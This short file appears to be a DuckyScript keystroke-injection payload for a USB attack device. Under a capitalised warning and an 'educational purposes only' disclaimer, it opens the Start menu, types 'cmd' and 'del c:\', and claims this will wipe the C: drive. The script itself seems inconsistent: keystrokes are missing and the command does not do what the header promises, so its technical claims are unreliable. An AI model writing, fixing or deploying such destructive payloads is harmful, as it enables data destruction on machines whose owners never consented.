 WARNING! THIS PAYLOAD WILL WIPE YOUR C:\ DRIVE C L E A N! I AM NOT RESPONSABLE FOR ANY DAMAGES DONE TO YOUR COMPUTER OR ANYBODY ELSES COMPUTER! THIS IS FOR EDUCATIONAL PURPOSES ONLY!!!

DO NOT USE THIS UNLESS YOU WANT TO FORMAT YOUR C:\ !!!!!!!!!!!!!!

DELAY 10000

ESCAPE

DELAY 400

CONTROL ESCAPE

DELAY 400

STRING cmd

DELAY 400

STRING del c:\

DELAY 120000

STRING exit

ENTER
